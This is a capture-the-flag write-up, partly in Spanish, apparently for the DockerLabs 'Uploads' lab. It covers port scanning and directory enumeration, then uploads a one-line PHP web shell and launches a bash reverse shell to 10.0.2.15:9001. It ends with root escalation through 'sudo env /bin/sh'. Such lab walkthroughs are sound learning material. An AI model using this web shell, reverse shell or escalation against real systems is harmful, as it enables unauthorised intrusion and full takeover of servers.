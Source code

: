 #Uploads DockerLabs - 12/05/2024

#web - https://dockerlabs.es/#/

First we do a basic port scan to the default ip address which is the *172.17.0.2*.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2
===============================================================
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 00:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```

We see that port 80 is open and we enter from firefox.


We enter and see a web page with a section for uploading files.

![Captura de pantalla 2024-05-13 001149](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/289a79e0-f7c1-4cf6-808f-946ab1c4059f)

We ran a subdomain scan with gobuster to see if we found anything interesting.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]

```

We found a subdomain *http://172.17.0.2/uploads/*.
We enter and we can see that this is where the uploaded files are hosted.

![Captura de pantalla 2024-05-13 002043](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/418a59e7-daa7-4819-b895-376a3286d882)

We create a script in ‘.php’ format with the following content:

```shell
<?php
	system($_GET['cmd']);
?>
```

Lo subimos y llamamos al archivo con un "?cmd=id" quedando de esta manera:

![Captura de pantalla 2024-05-13 204619](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/7b55fd0a-62eb-4f95-bdbc-cc921362b579)

```shell
http://172.17.0.2/uploads/cmd.php?cmd=id
```

Entramos a "https://www.revshells.com/" en esta web encontramos reverse shells ya generadas y listas para copiar y para cambiar los parametros de una manera sencilla

![Captura de pantalla 2024-05-13 204754](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/0a20f8dd-895e-4ead-8ab9-b8e171bc2423)
![Captura de pantalla 2024-05-13 204807](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/28ff216f-eaf8-4fe3-95ac-4520704adc72)


Run netcat with port 9001 as listening port:

```shell
nc -lvnp 9001
listening on [any] 9001 ...

```

We run the reverse shell so that we call the file ‘cmd.php’ and pass the above parameters ‘?cmd=id’ and now replace id with bash -c followed by two quotes and the reverse shell:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.2.15/9001 0>%261" )

```

![Captura de pantalla 2024-05-13 210138](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/853d7ccc-3224-4c5d-8495-0247a5960d9d)

The only thing missing now is the escalation of privileges.
We check the user's permissions with:

```shell
sudo -l
```

![Captura de pantalla 2024-05-13 210530](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/449ea752-5a93-4e67-a77e-d306b1111214)

En este caso podemos ver que podemos ejecutar el binario "/usr/bin/env" siendo este usuario root como se puede apreciar y indica que no tiene contraseña entonces prodecedemos a ejecutar este binario:
In this case we can see that we can run the binary ‘/usr/bin/env’ being this user root as you can see and indicates that it has no password then prodecedemos to run this binary:
```shell
sudo env /bin/sh
```

![Captura de pantalla 2024-05-13 210851](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6006d2f9-c5bf-44da-b6a8-e916850a9d0e)

and now we perform a whoami to find out which user we are:

```shell
whoami
```
y podremos comprobar que si que somos el usuario root.

